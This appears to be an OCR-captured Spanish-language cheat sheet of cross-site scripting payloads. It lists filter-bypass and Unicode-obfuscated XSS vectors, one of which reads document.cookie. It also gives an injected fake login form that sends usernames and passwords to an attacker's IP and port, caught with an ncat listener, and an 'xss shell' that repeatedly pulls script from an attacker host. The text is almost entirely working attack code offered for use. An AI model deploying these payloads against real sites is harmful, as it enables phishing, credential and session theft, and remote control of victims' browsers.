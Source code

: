 `<img src="x" onerror="document.write('<iframe src=tu_phishing></iframe>')"/>`


### xss + Unicode

`<marquee loop=1 width=0 onfinish=\u0070\u0072\u006f\u006d\u0070\u0074(document.cookie)>Y000</marquee>`


### ontoggle

`"><details/open/ontoggle=confirm`/xss_by_Y000!/`>`

### Filter Bypass Alert Obfuscation
 ```
(alert)(1)
a=alert,a(1)
[1].find(alert)
top[“al”+”ert”](1)
top[/al/.source+/ert/.source](1)
al\u0065rt(1)
top[‘al\145rt’](1)
top[‘al\x65rt’](1)
top[8680439..toString(30)](1)
```

### ----------------------------------

## HTML para simular un phishing y conseguir datos por ncat


### payload a inyectar:
```
<h3>Registrate</h3>
<form action=http://<Ip>:<Puerto>>Usuario:
<br><input type="username" name="username">
</br>Contraseña:<br><input type="password" name="password"></br>
<br><input type="submit" value="Entrar"></br>

```

### para escuchar:
`ncat -lnvp puerto`



## xss shell

### payload a inyectar:
```
"><script>setInterval(function(){d=document;z=d.createElement("script");z.src="//IP:PORT";d.body.appendChild(z)},0)</script>
```
